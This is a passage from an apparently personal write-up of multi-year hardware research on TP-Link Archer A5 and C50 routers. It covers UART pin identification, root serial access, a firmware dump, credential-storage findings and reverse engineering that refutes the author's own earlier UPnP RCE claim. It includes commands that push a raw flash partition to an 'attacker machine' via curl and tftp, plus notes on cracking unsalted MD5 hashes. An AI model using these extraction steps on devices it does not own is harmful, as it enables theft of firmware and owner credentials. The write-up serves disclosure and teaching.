





There is no CVE at the end of this post. I want to say that in the first line, because the usual shape of a hardware-hacking writeup is a ramp toward one dramatic bug, and this is not that. This is the longer and more honest shape: a multi-year poke at two cheap routers that taught me more about *verification* than about TP-Link. The best tool on the bench was a multimeter, the most useful result was a negative one, and the climax is me deleting an advisory I had written with my own name on it.

If that sounds like an anticlimax, stay anyway. Every step here is reproducible, and I will explain the mechanism behind each one, not just the keystrokes.

## What I actually proved

A skimmer's version of the whole chain, before any detail:

1. A row of four unlabelled through-holes on the board is a UART serial header. I identified which pad was which with a multimeter, voltage and resistance-to-ground, never by guessing, and reached a login prompt at 115200 8N1.
2. The console drops to a root shell after a local login. Over a *physical serial cable*, not over the network. That distinction is the whole ballgame for severity.
3. From a shell I dumped the `rootfs` partition off the raw flash and reconstructed the firmware as a mountable SquashFS image. The obvious method (`dd | curl`) failed; TFTP worked.
4. Inside the running system, the web admin panel's credential sits in a world-readable tmpfs file as an unsalted MD5. A shell reads it directly.
5. The service binaries are stripped 32-bit MIPS with no modern mitigations at all, and `httpd` contains a textbook unbounded-copy sink. These are *sinks*, not a demonstrated remote exploit, and I am careful about the difference.
6. Years later I revisited an old claim that one of these routers had an unauthenticated UPnP remote command execution. Under firmware emulation with a proper negative control, the claim did not survive. I withdrew it.

## Two devices, kept apart on purpose

This research spans two physical units, opened years apart, and the single most important discipline in the whole write-up is refusing to blur them.

- The **2026 bench unit** identifies itself, in its own boot banner, as an **Archer A5**. This is where the multimeter work, the clean UART pinout, and the live boot log come from.
- The **2022 / 2023 unit** was labelled **Archer C50 v4**. This is where the firmware dump, the credential-at-rest finding, the service map, and the binary triage come from. It is also the device behind the later emulation work.

They are close siblings. Both are AC1200 routers running TP-Link's proprietary RPM firmware stack (the `httpd` + `upnpd` + `cos`/`libcmm` family, not OpenWrt). The C50's boot log explicitly names a MediaTek **MT7628**, and the A5 carries the same **MT7628** silk-screened on its own board, so the SoC match is read off both units, not assumed. That the same design ships under both an A-series and a C-series name is consistent with TP-Link selling one reference platform under several labels, which is *context* for why the two look alike, not a license to attach one unit's evidence to the other. When I show a `/proc/mtd` map or a `/etc/passwd` line, it came off the C50. When I show a multimeter reading or the serial boot banner, that is the A5. I never dumped the A5's flash, so I never claim an A5 firmware image.

That rule cost me nothing and saved me from the most common failure in this genre: a folder full of files from several devices, silently welded into one heroic story.

## Act 1: four pads, not four guesses

Here is the subject. An unremarkable white box that sat routing packets for years.


Open it up and the whole board is a single green PCB, which is most of the design:


The large square chip in the centre is the MediaTek **MT7628** SoC, the whole router on one die: CPU, switch, and 2.4 GHz radio. To its left is the ESMT DDR chip (the 64 MB of RAM the boot log counted), the two black `U&T UTH20T29` blocks are the ethernet port magnetics, and the separate chip toward the bottom right is the 5 GHz radio. Along the bottom edge, the green light-pipes carry the front-panel LEDs, with the board helpfully silk-screened `Power 2.4G 5G LAN Internet WPS`. The white wire you can see tacked to a pad near the centre is one leg of the serial connection.

Near the power circuitry, you find a row of four plated through-holes. That shape, four in a line, is almost always an embedded serial header (UART). But *almost always* is not a wiring diagram. Four holes can be VCC, GND, TX, RX in any order, and getting it wrong has real costs. Feed 3.3 V into your adapter's TX, fine. Feed a pad you assumed was ground but that is actually a 3.3 V rail into your adapter's ground, and you can damage the adapter or the board. Worse, a desktop RS-232 serial port swings between roughly +12 V and -12 V. A router's UART is 3.3 V TTL. Connect the two directly and you put twelve volts across a three-volt pin.

So the first instrument is not a terminal. It is a multimeter.


The method, in order:

1. **Find a ground reference.** Any large copper pour, a shield can, or the barrel of the DC jack is tied to ground. Put the black probe there.
2. **Measure each pad to ground with the board powered on, DC volts.** VCC reads a steady supply voltage (here, about 3.3 V). GND reads 0 V. The TX line idles *high*, so it reads close to the supply when the port is quiet. RX idles high too but through the SoC's input, so it often reads a little lower or wobbles.
3. **Measure each pad to ground with the board powered off, resistance.** GND reads near zero ohms to your reference (it *is* ground). VCC and the signal lines read higher. This resistance check is what disambiguates a 0 V TX-during-reset from true ground: ground is 0 V *and* ~0 Ω, a quiet signal line is not.

I wrote the four readings down by hand. This notebook page is the real artifact, un-retouched:


Transcribed, with the reasoning I attached to each row:

```text
PIN   R-to-GND   V        my label
1     25.9 kΩ    3.337 V  VCC   steady supply, never touch with the adapter
2     0 Ω        0 V      GND   zero volts AND zero ohms = the ground reference
3     0.9 kΩ     0 V      RX    low impedance to the SoC input, quiet = 0 V
4     4.6 kΩ     3.3 V    TX    idles high; this is the line that will talk
```

Pin 4 idling at 3.3 V is the tell for TX: an asynchronous serial line holds high when idle, pulls low for a start bit, and the receiver samples the data bits in the middle of each bit period at the agreed baud rate before a stop bit returns it high. Pin 1, also near 3.3 V, is *not* a candidate for the adapter's RX, because it is the power rail: it reads the same voltage but it sources current, it does not carry a data waveform. The resistance column is what keeps you from confusing the two. A 25.9 kΩ reading to ground on a rail behaves nothing like a ~kΩ signal trace.

The notebook page shows one more thing I like, because it is the method being honest about itself: a fifth column, resistance-to-VCC, started and then crossed out. I had planned to measure each pad's resistance to *both* rails, then found that resistance-to-ground plus the voltage already labelled every pad unambiguously, so the second resistance sweep was redundant and I dropped it mid-table. That scribble is what real pin-finding looks like, not a clean datasheet.

The wiring that follows from the table:

- Adapter **GND** to board **GND** (pin 2). Always first, always connected.
- Board **TX** (pin 4) to adapter **RX**. The router talks, the adapter listens.
- Board **RX** (pin 3) to adapter **TX**, only if you intend to type.
- Adapter **VCC**: leave it **disconnected**. The router powers itself from its own wall supply. You want a common ground and a data line, not to back-feed power.

One thing the photograph deliberately does not give you is a transferable pin-one orientation for *your* board. Copying my left-to-right order onto a different hardware revision is exactly the four-wire gamble this whole section exists to avoid. The repeatable thing is the method, not my pin numbers.

## Act 2: the console was real

With the adapter wired and a terminal open at 115200 baud, 8 data bits, no parity, one stop bit (8N1), power-cycling the router produces a flood of boot text. Here is the bench mid-boot: the opened board on the left, the little USB-serial adapter (the red board with the lit LED) bridging three jumper wires to the header, and the serial log scrolling on the monitor.


The boot log is not decoration. Read top to bottom it fingerprints the entire platform. The photo above is the A5 mid-boot, but the only clean *textual* capture I kept is the C50's (`_misc/output.txt`), and the two scroll the same sequence line for line. Trimmed to the lines that carry information:

```text
U-Boot 1.1.3
Ralink UBoot Version: 4.3.0.0
ASIC 7628_MP (Port5<->None)
flash manufacture id: 1c, device id 70 17
Warning: un-recognized chip ID, please update bootloader!
DRAM component: 512 Mbits DDR, width 16
Total memory: 64 MBytes
The CPU freq = 580 MHZ
RESET MT7628 PHY!!!!!!
...snip kernel boot...
FW Build Date:20161213152835
```

That tells me, before I have a single command prompt: the SoC is a MediaTek **MT7628** at 580 MHz, there is 64 MB of RAM, and the bootloader is **U-Boot 1.1.3** (Ralink's 4.3.0.0 vendor fork). The flash JEDEC ID `1C 70 17` decodes part by part: manufacturer `0x1C` is EON, and the capacity byte `0x17` means 2^23 bytes, so this is an 8 MiB (64 Mbit) SPI NOR flash, an EON part in the EN25QH64 class. One date caveat worth getting right: the `FW Build Date:20161213` line deeper in the log is the Wi-Fi (mt76x2) firmware blob from December 2016, not the system image. The root filesystem and the bootloader are newer, both stamped January 2019, which I confirm later straight from the SquashFS superblock. The "un-recognized chip ID" warning is just the vendor bootloader not recognizing that exact flash part, harmless here, but a reminder that this is budget silicon on a frozen toolchain.

A little later the proprietary init brings up the switch PHYs and starts TP-Link's own services. On the A5 bench unit the same phase is visible on-screen, including the module loads and TP-Link's debug daemon starting:


```text
[ util_execSystem ] setupModules cmd is "insmod .../net/ipv4/netfilter/..."
nf_nat_rtsp v0.6.21 loading
[ util_execSystem ] oal_openIpv6PassThrough cmd is "rmmod .../ipv6_pass_through.ko"
rmmod: can't unload 'ipv6_pass_through': unknown symbol in module, or unknown parameter
enable switch phyport...
[cmd_dutInit():1081] init shm
[tddp_taskEntry():151] tddp task start
Set: phy[0].reg[0] = 3900
...
turn off flow control over.
```

`tddp task start` is worth flagging now, because it comes back later: TDDP is the TP-Link Device Debug Protocol, a UDP service that has historically carried command-injection bugs on other models. Seeing it start in the boot log is a lead, not a finding. I will get to why that distinction matters.

The whole path from cold metal to a root prompt, in one picture:



Then the login. This is the A5, photographed off the monitor. I am transcribing it rather than embedding the screen photo, because terminal text belongs in a code block where you can read and copy it, not in a JPEG:

```text
Archer A5 login: admin
Password:
Jan  1 01:05:10 login[1285]: root login on 'ttyS1'
~ # whoami
-sh: whoami: not found
~ # ls
web  usr  sbin  mnt  lib  dev  var  sys  proc  linuxrc  etc  bin
~ # bash
-sh: bash: not found
```

Three things in that short capture, each a genuine datum:

- `root login on 'ttyS1'`. The account is UID 0. The serial console hands you root after a local login. The clock reads `Jan 1 01:05:10` because there is no RTC and NTP has not run yet, an ordinary embedded detail, not a glitch.
- `whoami: not found`, `bash: not found`. This is BusyBox. There is no full GNU userland. Your desktop reflexes (`whoami`, `bash`, later `scp`) will mostly fail, and planning around that is half the work of the next act.
- The `ls /` shows the classic TP-Link RPM layout: `web` holds the admin UI, `usr/bin` holds the service binaries, `etc` holds the config. No `/home`, no package manager.

To confirm the console was a *live* window into a running router and not just a boot capture, I pinged a machine across my LAN from the A5's shell (it had `cd`'d into `/web`, hence the prompt):

```text
/web # ping 192.168.1.61
PING 192.168.1.61 (192.168.1.61): 56 data bytes
64 bytes from 192.168.1.61: seq=0 ttl=64 time=1.400 ms
64 bytes from 192.168.1.61: seq=1 ttl=64 time=0.360 ms
^C
--- 192.168.1.61 ping statistics ---
2 packets transmitted, 2 packets received, 0% packet loss
round-trip min/avg/max = 0.360/0.880/1.400 ms
```

An honest aside, because the flawless run is always fiction: `ping google.com` from the same shell resolved to an IPv6 address (`2a00:1450:4007:818::200e`) and returned `ping: sendto: Network is unreachable`, while the IPv4 LAN ping above worked. That is a connectivity state (no working IPv6 egress at that moment), not a broken network stack. I note it because leaving it out would be dishonest about what the bench actually looked like.

What I did **not** demonstrate: an unauthenticated login, or any network path to this shell. A serial cable soldered to a header is physical access. A LAN socket is a different trust boundary, and a WAN port is a different one again. Nothing in this act crosses those.

## Act 3: getting the bytes out

With a root shell on the C50, the goal became a firmware image I could analyze offline. The whole firmware lives in one eight-pin SOIC package, `U4` on the underside of the board, sitting right next to the three wires (ground, TX, RX) I tacked onto the serial header. The package markings are consistent with EON's cFEON flash line, which is a nice physical confirmation of the JEDEC ID `1C 70 17` the bootloader printed: the chip in my hand and the byte the ROM read agree on EON, 8 MiB.


There are two ways to read that chip. You can desolder it, or clip onto it in-circuit, and read it directly with an SPI programmer (a CH341A and `flashrom`), which needs no shell at all and is the right move when the device will not give you a console. Or, if you already have a root shell, you can let the running Linux read its own flash for you, which is what I did. On a Linux-based router the flash is exposed as Memory Technology Device partitions. The map lives in `/proc/mtd`:

```text
/dev # cat /proc/mtd
dev:    size   erasesize  name
mtd0: 00020000 00010000 "boot"
mtd1: 00140000 00010000 "kernel"
mtd2: 00630000 00010000 "rootfs"
mtd3: 00010000 00010000 "config"
mtd4: 00010000 00010000 "romfile"
mtd5: 00010000 00010000 "rom"
mtd6: 00010000 00010000 "radio"
```

Reading that table partition by partition:

- `mtd0` **boot** (0x20000 = 128 KB): the U-Boot bootloader.
- `mtd1` **kernel** (0x140000 = 1.25 MB): the compressed Linux kernel.
- `mtd2` **rootfs** (0x630000 = 6,488,064 bytes): the root filesystem, a SquashFS image. This is the one I want.
- `mtd3` **config** / `mtd4` **romfile**: device configuration and the factory defaults.
- `mtd5` **rom** / `mtd6` **radio**: a small ROM region and the per-device radio calibration data.

Those seven partitions map 8,192,000 bytes, which sits inside the 8,388,608-byte (8 MiB) EON chip with the top 192 KiB left unmapped. The names and numbers are *device-specific*: reading `mtdblock2` because some other TP-Link used it would be guessing at flash layout with a better-looking command. On this device, `/proc/mtd` says `mtd2` is rootfs, so `mtdblock2` is the block device that exposes it.

Now, how do you get 6.5 MB off a BusyBox box with no `scp`? My first instinct was to stream it straight to an HTTP endpoint:

```text
~ # dd if=/dev/mtdblock2 bs=4M | curl -X POST --data-binary @- http://192.168.0.101/upload
```

That did not work. The combination of BusyBox `dd`, the embedded `curl` build, and chunked POST of a binary stream over this stack simply did not deliver a clean file. I did not fight it. A dead end you walk away from quickly is cheaper than one you fall in love with.

The second approach was TFTP, which is almost purpose-built for exactly this: a tiny, dumb, connectionless file-push with a client present on nearly every embedded image. On the attacker machine:

```text
$ sudo pacman -S tftp-hpa          # (notes say: yay -S tftp-hpa on this box)
$ sudo systemctl enable --now tftpd.service
$ sudo install -m 666 /dev/null /srv/tftp/firmware.bin
```

The `install -m 666` line matters: `tftpd` writes as its own unprivileged user, so the destination file has to exist and be world-writable before the push, or the transfer is refused. Then, from the router's shell, with the two connected by an ethernet cable so they share a subnet:

```text
~ # tftp -p -l /dev/mtdblock2 -r firmware.bin 192.168.0.101
```

`-p` puts (uploads), `-l` is the local source (the raw rootfs block device), `-r` is the remote filename on the server. This worked. On the host I now had a 6,488,064-byte file, the exact size `/proc/mtd` promised for `mtd2`, which is the first consistency check that I grabbed the right partition and all of it.

Mounting it confirms the format:

```text
$ mkdir mnt
$ sudo mount -t squashfs -o loop firmware.bin mnt
$ ls mnt
bin  dev  etc  lib  linuxrc  mnt  proc  sbin  sys  usr  var  web
```

`file` confirms the format and, usefully, dates it:

```text
$ file firmware.bin
firmware.bin: Squashfs filesystem, little endian, version 4.0, xz compressed,
              5803835 bytes, 798 inodes, blocksize: 131072 bytes,
              created: Fri Jan 25 09:43:51 2019
```

SquashFS 4.0, xz-compressed, 798 inodes, 128 KB blocks, and a superblock timestamp of `Jan 25 2019`, the exact date in the U-Boot banner at the top of the boot log. That agreement, bootloader and root filesystem built the same day, is a small authenticity check that I am holding a coherent image and not a mash-up. (This image is still on disk: the dumped `firmware.bin` is 6,488,064 bytes and remounts cleanly years later.)

SquashFS is a compressed read-only filesystem, which is exactly what you want in flash: the running rootfs is immutable, and everything writable lives in tmpfs under `/var`. That design choice is itself a finding, because it tells you where secrets at runtime will be: not in the firmware image, but in `/var`.

## Act 4: what the firmware held

Two things in the filesystem are worth a careful look.

**The default root credential.** `/etc/passwd` ships inside the image, identical on every unit of this model:

```text
admin:$1$$<md5crypt, empty salt, redacted>:0:0:root:/:/bin/sh
dropbear:x:500:500:dropbear:/var/dropbear:/bin/sh
nobody:*:0:0:nobody:/:/bin/sh
```

Decoding the `admin` line field by field: the username is `admin`; the password field is a `$1$` hash, which is **MD5-crypt**; the salt between the two `$` after the `1` is *empty*, so the hash is unsalted and identical across every device; the UID and GID are both `0`, meaning `admin` **is** root; the shell is `/bin/sh`. I have redacted the hash bytes, but the shape is the point: an unsalted MD5-crypt of a short default password falls to `john` or `hashcat` in milliseconds, and here it recovers to the four-digit default the quick-setup card tells every owner to change and most never do. This is a shipped default baked into the firmware rather than a per-owner secret, but there is no pedagogical reason to paste the exact digest, so I do not.

**The web panel credential, stored at rest.** This one is different, and I am redacting it. At runtime, under `/var/tmp/dropbear/`, the router keeps the admin web UI credential in a flat file:

```text
/var/tmp/dropbear # cat dropbearpwd
username:<redacted>
password:<32-hex MD5, redacted>
```

The value I recovered was the *web admin panel* login, the one the owner sets, stored as a username and an unsalted MD5 of the password in a world-readable path on a tmpfs. Anyone who reaches a shell on this device, by any route, reads the web credential for free and cracks the unsalted MD5 offline at leisure. I am not printing the username or the hash because, unlike the `/etc/passwd` default, this is a real secret belonging to one device's owner. The *finding* is the design: a reversible-at-rest admin credential sitting in cleartext-structured form behind nothing but filesystem permissions. The redaction does not weaken the point, it demonstrates it.

**The service map.** `ps` and `netstat` from the live session draw the attack surface, which is the thing that actually matters for anyone thinking about remote risk:

```text
~ # netstat -ltnp
tcp  0  0 127.0.0.1:20002  0.0.0.0:*  LISTEN  1112/tmpd
tcp  0  0 0.0.0.0:1900     0.0.0.0:*  LISTEN  1078/upnpd
tcp  0  0 0.0.0.0:80       0.0.0.0:*  LISTEN  1076/httpd
tcp  0  0 0.0.0.0:22       0.0.0.0:*  LISTEN  1332/dropbear
tcp  0  0 :::22            :::*       LISTEN  1332/dropbear
```

Reading it: `httpd` on `:80` is the web UI, exposed on all interfaces. `upnpd` on `:1900` is the UPnP/SSDP service, also on all interfaces, and `ps` shows it spawned as a whole pool of worker processes. `dropbear` is the SSH daemon. And `tmpd` on `127.0.0.1:20002` is bound to **loopback only**, so it is not remotely reachable without first getting a local foothold. Noticing that `tmpd` is loopback-bound saved me from spending time on a service no remote attacker can touch. The interesting remote surface is `httpd` and `upnpd`.

## Act 5: reading the binaries

The service binaries all share a profile. From `file`:

```text
upnpd:        ELF 32-bit LSB executable, MIPS, MIPS32 rel2, dynamically linked,
              interpreter /lib/ld-uClibc.so.0, stripped
httpd:        ELF 32-bit LSB executable, MIPS, MIPS32 rel2, ... stripped
dropbearmulti: ELF 32-bit LSB executable, MIPS, MIPS32 rel2, ... stripped
```

Little-endian 32-bit MIPS, dynamically linked against uClibc, and stripped of symbols. The "stripped" part is why the reversing later leans on a decompiler and careful cross-referencing rather than nice function names.

`checksec` on `tmpd` (the others are the same story) shows what budget embedded firmware looks like in 2016:

```text
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
    RPATH:    '/var/tmp/pc/'
```

Every mitigation that would make memory-corruption hard is absent. **No stack canary**: a stack buffer overflow is not detected before the function returns. **NX disabled** with **RWX segments**: memory that is writable is also executable, so injected shellcode can run directly, no ROP required. **No PIE**, loaded at a fixed `0x400000`: addresses are static across runs, so there is nothing to leak. And **`RPATH: '/var/tmp/pc/'`**: the dynamic loader searches that tmpfs path for shared libraries. If any process can write a malicious `.so` into `/var/tmp/pc/` before `tmpd` starts, it gets loaded. That is a local library-hijack primitive, gated on being able to write that path, which on a fresh boot you cannot, so it is a note, not a bug.

`tmpd` itself, after a read, had nothing I could drive. The more interesting read was a helper in `httpd`, decompiled:

```c
undefined4 updateString(void *param_1, void *param_2, size_t param_3)
{
  if ((param_1 == (void *)0x0) || (param_2 == (void *)0x0)) {
    fputs("updateString  Error \n", _stderr);
    return 0xffffffff;
  }
  memset(param_1, 0, param_3);
  memcpy(param_1, param_2, param_3);   // length is caller-supplied, destination size unchecked
  return 0;
}
```

The root cause pattern, stated plainly: `updateString` copies `param_3` bytes from source to destination and the function itself never knows how large the destination is. It null-checks the two pointers and nothing else. If any caller passes a destination buffer smaller than an attacker-influenced `param_3`, this is a straight overflow into whatever follows that buffer, on a target with no canary and no NX. That is a classic sink.

A sink is not a vulnerability until a reachable caller lets a remote input control both the source and the length, into a buffer that is actually too small. So instead of stopping at the sink, I asked `r2` who calls it, and what length each caller passes:

```text
[0x00400e98]> axt @ sym.updateString     # every caller
0x00410bec  bal sym.updateString
0x004124d8  jal sym.updateString
0x00412550  jal sym.updateString
0x00412568  jal sym.updateString
0x00412a94  jal sym.updateString
[0x00400e98]> pd 4 @ 0x410bdc             # one caller, just before the call
0x00410bdc   lw    a1, 0x84(s1)
0x00410be4   addiu a2, zero, 0x21          ; length = 0x21, a hard constant
0x00410be8   addiu a0, a1, 0xf0            ; destination
0x00410bec   bal   sym.updateString
```

Five call sites, and each one sets `a2` to a literal `0x21` (33 bytes) in its delay slot, inside internal GDPR-related code, with no request-controlled length anywhere near them. The dangerous shape is real; the dangerous call is not present in this firmware. Writing "unbounded `memcpy` in `httpd`, therefore RCE" would have been exactly the move this whole post argues against. It stays a sink worth re-checking in other versions, not a bug in this one.

## Act 6: the reckoning, or how I disproved my own exploit

Years after the dump I came back to the C50, and this phase was mostly reverse engineering, not emulation. I opened the current `250117` binaries in Ghidra and `r2` and worked through a list of hypotheses, including my own old one, trying to kill each. That order matters. The emulator came last, as a way to test the one lead that survived the disassembly, not as the thing that found it. The honest account of this phase is a list of things I tried to make work and mostly could not.



The rest of this section walks each branch, with the actual `r2` output that settled it.

**Lead one, my own old RCE, refuted at the instruction level.** The earlier write-up with my name on it claimed an unauthenticated command execution in `upnpd`: a SOAP `AddPortMapping` whose `NewProtocol` field was concatenated into a shell command. So I read `pmlist_NewNode` in `r2`, where that field is handled:

```text
[0x00409088]> pd 10 @ 0x409cd0        # pmlist_NewNode: the NewProtocol field
0x00409cd0   lw    a0, (arg_3ch)         ; a0 = the NewProtocol string
0x00409ce0   jalr  t9                    ; strlen(NewProtocol)
0x00409cec   sltiu v0, v0, 4             ; v0 = (len < 4) ? 1 : 0
0x00409cf0   beqz  v0, 0x409d30          ; len >= 4  ->  the blanking path
            ...
0x00409d3c   lui   v1, 0x41
0x00409d40   addiu v1, v1, 0x84c         ; v1 = 0x41084c
0x00409d44   lbu   v1, (v1)              ; load ONE byte from 0x41084c
0x00409d4c   sb    v1, (v0)              ; store it into node+0x24
[0x00409088]> px 4 @ 0x41084c
0x0041084c  0000 0000                     ....
```

The field is copied with `strcpy` only when `strlen < 4`. Anything longer takes the branch at `0x409cf0` into a path that writes a single byte, loaded from `0x41084c`, into the node. That byte is `00`. So a `NewProtocol` of four bytes or more is replaced by one NUL, an empty string, before it ever reaches the firewall command. The long `TCP; ...` payload the whole claim rested on could never survive this function. The advisory was wrong about its own mechanism, in the shipped binary.

**Lead two, the diagnostics shell, refuted the same way.** The authenticated Ping and TraceRoute pages feed a `Host` into `oal_startPing` and `oal_startTraceRoute`, which really do call `util_execSystem`. That looks like command injection. So I read the Host validator in `libcmm.so`, `rsl_setIppingDiagObj`, one character at a time:

```text
0x0006f7d4   addiu a0, v1, -0x30
0x0006f7dc   sltiu a0, a0, 0xa         ; is it '0'..'9' ?
0x0006f7e0   bnez  a0, 0x6f818         ;   yes -> accept, next char
0x0006f7e4   addiu a0, v1, -0x61
0x0006f7ec   sltiu a0, a0, 0x1a        ; is it 'a'..'z' ?
0x0006f7f0   bnez  a0, 0x6f818
0x0006f7f4   addiu a0, v1, -0x41
0x0006f7fc   sltiu a0, a0, 0x1a        ; is it 'A'..'Z' ?
0x0006f800   bnez  a0, 0x6f818
0x0006f804   addiu v1, v1, -0x2d
0x0006f80c   sltiu v1, v1, 2           ; is it '-' or '.' ?
0x0006f810   beqz  v1, 0x6f838         ;   anything else -> reject
            ...
0x0006f85c   addiu s1, zero, 0x232f    ; "Invalid Host Name", return 0x232f
```

The allowlist is exactly `[0-9A-Za-z.-]`. A `;`, a space, a backtick, a `$`, none of them survive to `util_execSystem`, they all hit the reject at `0x6f838`. The TraceRoute setter `rsl_setTracerouteDiagObj` runs the byte-for-byte same loop and rejects at `0x70028`. A metacharacter never reaches the shell on that path.

Lead three was the `httpd` `updateString` copy from the previous section, and it died the same honest death: dangerous shape, every caller in this build passing a fixed length.

**The one survivor.** The port fields of the same handler take a different route. `NewInternalPort` passes an `atoi` range check, and then the same `pmlist_NewNode` keeps its original string under a different, looser limit:

```text
[0x00409088]> pd 6 @ 0x409bd0         # same function, the port field
0x00409bdc   jalr  t9                    ; strlen(NewInternalPort)
0x00409bec   sltiu v0, v0, 6             ; v0 = (len < 6)  -- note: 6, not 4
0x00409bf0   beqz  v0, 0x409c30
0x00409c00   addiu v1, v0, 0x18          ; kept: strcpy into node+0x18
[0x00409088]> px 56 @ 0x41099c          # the DNAT command template
0x0041099c  %s -t nat -A %s -d %s -p %s --dport %s -j DNAT --to %s:%s
[0x00409088]> pdc @ 0x40970c            # the exec helper, 36 callers
    v0 = [sym.imp.system]
    call t9                               ; system(cmd)
    ... "system fork failed.\ncmd:%s\n"
```

So the port field keeps up to five bytes, those bytes are formatted into an `iptables ... -j DNAT --to %s:%s` line, and that line is handed to `system()` through the wrapper at `0x40970c` (which calls `sym.imp.system` and, on failure, prints `system fork failed`). Nothing blanks it the way `NewProtocol` is blanked. That asymmetry is the whole finding, and it is easier to see as a picture than as prose:



Five bytes of attacker-influenced text reaching a shell formatter is worth testing for real, so I needed the service running.

**The firmware does try to start it.** This is not a dead service sitting in the image. `libcmm.so` reads the `UPnPCfg/Enable` byte and, when it is set, formats and runs the launch line itself:

```text
[0x00008e3e0]> pd @ 0x8e408            # libcmm.so, the UPnP launcher
0x0008e404   addiu a1, zero, 0x200
0x0008e408   addiu a2, a2, ...          ; "upnpd -L %s -W %s -en %d -P %s -nat %d -port %d ..."
0x0008e414   addiu a3, a3, 0x4540       ; "br0"  ->  the -L interface
